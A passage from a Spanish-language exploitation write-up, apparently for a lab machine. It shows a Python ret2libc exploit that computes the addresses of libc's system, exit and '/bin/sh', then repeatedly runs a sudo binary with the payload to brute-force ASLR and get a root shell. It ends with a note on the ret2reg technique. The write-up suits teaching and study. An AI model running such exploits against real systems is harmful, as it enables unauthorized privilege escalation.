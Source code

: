 ```python

# BASE_LIBC_ADDR:
# ldd {binary} | grep libc | awk 'NF{print $NF}' | tr -d '()'
# b75db000
base_libc_addr = 0xb75db000

# SYSTEM_ADDR_OFF & EXIT_ADDR_OFF:
# dobliuw@ubuntu:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E ' exit| system'
#   141: 0002e9e0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
#  1457: 0003adb0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0

# "BIN_SH_OFF:
# strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
# 15bb2b /bin/sh

# OFFSET DE LAS FUNCIONES:
system_addr_off = 0x0003adb0
exit_addr_off = 0x0002e9e0
bin_sh_off = 0x0015bb2b

# CALCULO DE LAS DIRECCIÓNES REALES:
system_addr = pack("<L", base_libc_addr + system_addr_off)
exit_addr = pack("<L", base_libc_addr + exit_addr_off)
bin_sh = pack("<L", base_libc_addr + bin_sh_off)

payload = before_eip + system_addr + exit_addr + bin_sh


def exploit():
	while True:
		result = subprocess.run(["sudo", "/usr/bin/custom", payload])
		if result.returncode == 0:
			print("\n\n\t[!] Quiting...\n\n")
			sys.exit(0)


if __name__ == "__main__":
	exploit()
```

----

# Ret2reg

### Adicionalmente, algo que de podría haber intentado en este caso, es un **ret2reg**, es decir **retornar a un registro**. Muchas veces, antes de realizar un *ret2libc* y realizar fuerza bruta en caso de que el sistema tenga el **ASLR** activado, podríamos intentar hacer uso de esta técnica la cual consiste en hacer que el registro *EIP* valga una dirección en memoria perteneciente al **opcode CALL EAX** , el cual así como JMP ESP es un OpCode el cual conduce el flujo del programa al registro ESP, el CALL EAX conduce el flujo del programa al registro **EAX**. 
